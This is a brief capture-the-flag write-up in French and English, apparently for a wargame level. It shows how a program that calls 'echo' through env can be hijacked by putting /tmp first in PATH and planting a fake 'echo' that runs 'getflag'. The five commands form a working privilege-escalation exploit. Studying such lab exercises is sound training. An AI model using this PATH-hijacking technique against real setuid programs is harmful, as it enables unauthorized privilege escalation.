 On peut voir dna slevel03 : system("/usr/bin/env echo xxxx") tells the system to use Env
So we can play the env to get the flag 
--->
PATH=/tmp:$PATH								----- New path
export PATH 								----- Set new path
echo 'getflag' > /tmp/echo 					----- Replace echo by getflag
chmod +x /tmp/echo 							----- make /tmp/echo executable
./level03 									----- Get your flag 
